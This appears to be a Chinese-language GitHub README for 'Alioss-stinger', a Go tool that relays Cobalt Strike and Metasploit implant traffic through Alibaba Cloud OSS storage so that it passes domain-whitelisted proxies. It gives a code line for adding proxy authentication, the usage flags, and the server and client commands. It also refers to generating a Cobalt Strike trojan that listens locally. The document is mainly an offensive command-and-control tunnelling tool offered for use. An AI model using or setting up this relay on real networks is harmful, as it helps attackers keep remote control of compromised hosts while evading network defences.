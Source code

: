 # Alioss-stinger

利用阿里云oss对象存储，来转发http流量实现（cs）Cobalt Strike、msf 上线等

这之间利用阿里云的相关域名进行通信。

## 背景

在某次攻防中，内部通过代理服务器上网，且不能访问ip，域名白名单，刚好阿里云、腾讯云在其中，看到github上有个师傅写过的一些腾讯云的代码，但是有个问题，腾讯云的官方库好像不支持认证功能，于是我就照着这个师傅的代码改成了阿里云的版本。

参考：https://github.com/9bie/oss-stinger

修改39行就好，加入内网代理服务器

```
ossClient, err = oss.New(endPoint, accessKeyId, accessKeySecret, oss.AuthProxy("http://127.0.0.1:8080", "", ""))
```

## 如何使用

```
PS C:\Users\xxx\Desktop\github\goalioss-stinger> go run .\main.go -h
Usage of C:\Users\xxx\AppData\Local\Temp\go-build3967568892\b001\exe\main.exe:
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -mode string
        client/server 二选一
  -osskey string
        format: endpoint:accessKeyId:accessKeySecret:bucketName
```

### CS

生成监听本地127.0.0.1:8001的木马：

![image-20221214185423368](README.assets/image-20221214185423368.png)

### 服务端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode server -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

### 客户端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode client -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

![image-20221214185022534](README.assets/image-20221214185022534.png)

# 阿里云安全配置

待完善……

